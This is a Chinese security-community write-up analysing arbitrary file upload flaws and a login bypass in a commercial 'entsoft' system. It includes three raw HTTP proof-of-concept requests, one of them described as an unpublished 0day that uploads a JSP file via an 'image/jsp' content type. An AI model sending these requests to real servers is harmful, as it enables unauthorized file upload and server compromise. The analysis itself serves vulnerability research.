








# 某恩特文件上传漏洞分析 - 先知社区

某恩特文件上传漏洞分析

- - -

## 0X01 前言

最近这段时间某恩特，公众号到处在发，该系统的0day漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的0day  
基本上都是这两天的，非常的集中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231122140854-9d54731a-88fd-1.png)

## 0X02 漏洞分析

我们来看一下最开始原始的POC

```plain
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 27
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Content-Type: application/x-www-form-urlencoded

11111
```

定位到fileupload.jsp文件,只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202653-407ea8d4-8869-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了2个  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202713-4cf432fa-8869-1.png)  
且这套系统对jsp之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞fileupload.jsp在开发者允许访问白名单中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202741-5d655524-8869-1.png)  
继续深入探索，查看web.xml,发现Filter，通过jd-gui反编译common.jar文件即可查看相关代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202802-69d52ff0-8869-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202830-7a70f312-8869-1.png)  
其判断鉴权部分模块，通过contains来判断是否包含需要排除的字符和路径  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202854-8909d650-8869-1.png)  
所以访问jsp文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html等方式绕过登录限制  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202939-a3ebc992-8869-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121202955-acff1d2c-8869-1.png)  
而entsoft\_en也赫然在列，再去看看entsoft中的filupload.jsp,和其他相关的upload  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203020-bc1e4a94-8869-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是jpg，如果是后缀就变成了jpeg  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203041-c894e530-8869-1.png)  
继续查看web.xml  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203100-d44603aa-8869-1.png)  
定位到实现类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203119-df11a1ea-8869-1.png)  
反编译查看  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203134-e882b9a8-8869-1.png)  
定位到MailAction，获取到了三个参数，method，act，eid，后面判断method和act是对应的值，如果是则跳到对应的实现方法中，比如saveAttaFile  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203205-fb02ee18-8869-1.png)  
利用POC

```plain
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1
Host: xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 179

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="beautif.js"
Content-Type: xxx/txt

1
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

POC中的;.png同上，绕过登录限制，继续查看该代码文件发现其AppUpload方法也存在文件上传功能，其文件名判断了contentype是否不为空，以及contentype是否包含image，之后在取contentype中的值作为后缀，我们可以通过image/jsp绕过  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203234-0c148770-886a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203251-160acaa0-886a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231121203317-25cd34c8-886a-1.png)  
最新的POC

```plain
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351
Content-Length: 259
Origin: 
Connection: close
Referer: 
Cookie: 

-----------------------------255059884712683317431739889351
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>
-----------------------------255059884712683317431739889351--
```

其他Action中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。

## 0X03 总结

感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正，图片打码有点问题，感谢先知社区的审核大大如此认真负责，比心
